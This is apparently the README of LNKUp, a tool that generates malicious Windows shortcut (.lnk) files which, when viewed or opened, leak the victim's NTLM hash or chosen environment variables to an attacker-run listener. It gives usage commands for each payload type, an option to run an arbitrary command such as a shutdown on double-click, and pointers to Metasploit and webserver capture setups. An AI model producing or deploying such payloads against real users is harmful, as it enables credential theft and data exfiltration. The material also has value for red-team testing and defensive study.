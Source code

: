 # LNKUp
LNK Data exfiltration payload generator
---
This tool will allow you to generate LNK payloads. Upon rendering or being run, they will exfiltrate data.   

## Info
**I am not responsible for any actions you take with this tool!**   
You can contact me with any questions by opening an issue, or via my Twitter, [@Plazmaz](https://www.twitter.com/Plazmaz).

## Known gotchas
* This tool will not work on OSX or Linux machines. It is specifically designed to target windows.
* There may be issues with icon caching in some situations. If your payload doesn't execute after the first time, try regenerating it.
* You will need to run a responder or [metasploit module](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb) server to capture NTLM hashes.
* To capture environment variables, you'll need to run a webserver like apache, nginx, or even just [this](https://gist.github.com/Plazmaz/cafd0bd3a3a4471446cc8fe6e4f0c036)

## Installation
Install requirements using   
`pip install -r requirements.txt`


## Usage

#### Payload types:
* NTLM
	* Steals the user's NTLM hash when rendered.
	* Needs listener server such as this [metasploit module](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb)
	* More on NTLM hashes leaking: [https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/](https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/?utm_source=github_lnkup)
	* Example usage:   
	 `lnkup.py --host localhost --type ntlm --output out.lnk`
* Environment
	* Steals the user's environment variables.
	* Examples: %PATH%, %USERNAME%, etc
	* Requires variables to be set using --vars
	* Example usage:   
	 `lnkup.py --host localhost --type environment --vars PATH USERNAME JAVA_HOME --output out.lnk`
#### Extra:
* Use `--execute` to specify a command to run when the shortcut is double clicked
	* Example:   
	  `lnkup.py --host localhost --type ntlm --output out.lnk --execute "shutdown /s"`
